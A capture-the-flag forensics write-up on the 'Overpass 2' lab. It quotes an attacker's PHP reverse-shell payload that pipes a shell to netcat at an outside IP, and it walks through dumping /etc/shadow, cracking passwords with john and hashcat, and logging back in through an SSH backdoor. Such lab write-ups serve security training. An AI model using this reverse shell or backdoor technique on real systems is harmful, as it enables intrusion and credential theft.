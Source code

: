 # Overpass 2 - Hacked
Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

---

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

---

### 1 - Forensics - Analyse the PCAP

One of the best practices to analyze pcap files is to follow TCP streams and see what data is being exchanged over which protocol and so on.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/190a6772-f0ea-4206-a3b1-1659c80eac41)


To navigate more easily between streams, use the stream field in the bottom right corner of the stream window.\
We can see that in stream 1, the attacker is uploading a php file to `/development/`. Based on the content of the file, the payload is php reverse shell.
```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

TCP stream number 2 shows that the attacker requested the malicious php file to get that reverse shell.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/e064e9a8-1c86-4605-8d01-322031992d2b)

Moving to stream number 3. This is where we can see the full action of the attacker once got a foothold into the machine.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/4ed1baa0-b59f-404c-9d65-a32f1a479b5f)

The attacker first switched to James' account to which he has access to the password. Then he listed commands that can be executed by James with root privileges (`sudo -l`). Because James can execute whatever command as root (bad practice), the attacker was able to dump all password hashes from `/etc/shadow` and install an `ssh-backdoor` for persistence. [The backdoor](https://github.com/NinjaJc01/ssh-backdoor) runs an SSH server on port 2222 that the attacker can connect to as he possesses a valid password as we'll see below.

Back to the password hashes, we can crack 4 of them using the `fasttrack` wordlist.
```
$ john hashes.txt -wordlist:fasttrack.txt 

Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secuirty3        (paradox)
abcd123          (szymex)
secret12         (bee)
1qaz2wsx         (muirland)
```

### 2 - Research - Analyse the code

Getting the source code from GitHub
```
$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

In the `main.go` file we find the default hash and the hardcoded salt for the backdoor.
```go
<...snip...>
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"

<...snip...>

func verifyPass(hash, salt, password string) bool {
        resultHash := hashPassword(password, salt)
        return resultHash == hash
}

<...snip...>

func passwordHandler(_ ssh.Context, password string) bool {
        return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

Back to our pcap file, the attacker changed the default hash of the backdoor. The flag `-a` is used for this purpose as we can see from the source code.

```go
<...snip...>
        flaggy.String(&hash, "a", "hash", "Hash for backdoor")
<...snip...>
```
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/61ab58a0-2595-41e3-a29f-e2ca921b6e84)

The hash value represents the passwords that will be required when connecting to the ssh server. Based on `main.go`, SHA512 is used, and the hash is computed on the concatenation `password + salt`. Thus, to crack that hash using `hashcat`, our hash file will contain `<hash>:<salt>`, the mode is 1710, and the wordlist is `rockyou.txt`:
```
$ hashcat -m 1710 hash rockyou.txt

<...snip...>
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
<...snip...>
```

### Attack - Get back in!

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/7dd6543d-9ca4-4fe1-b17b-f707bcec99aa)

To get back control over the server, we'll connect to SSH port 2222 with the found password.
```
$ ssh james@<target_ip> -p 2222 -oHostKeyAlgorithms=+ssh-rsa
<...snip...>

james@overpass-production:/home/james/ssh-backdoor$ cd ~

james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www

```






